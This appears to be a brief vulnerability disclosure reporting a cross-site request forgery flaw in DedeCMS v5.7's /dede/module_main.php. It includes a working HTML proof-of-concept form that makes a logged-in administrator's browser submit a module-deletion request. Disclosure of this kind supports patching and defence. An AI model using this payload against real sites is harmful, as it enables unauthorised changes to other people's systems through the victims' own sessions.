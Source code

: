 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /dede/module_main.php
![1](https://github.com/777erp/cms/assets/113673221/17eb36dc-a43f-486a-920b-b907653426ae)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/src/dede/module_main.php" method="POST">
      <input type="hidden" name="hash" value="0cce60bc0238aa03804682c801584991" />
      <input type="hidden" name="action" value="delok" />
      <input type="hidden" name="imageField1&#46;x" value="26" />
      <input type="hidden" name="imageField1&#46;y" value="8" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>





```

![2](https://github.com/777erp/cms/assets/113673221/bb19edd1-736c-4498-bbf0-4d3155c8fef3)


Successed

![3](https://github.com/777erp/cms/assets/113673221/5a71c8fb-67f9-4778-a088-6704290610d7)
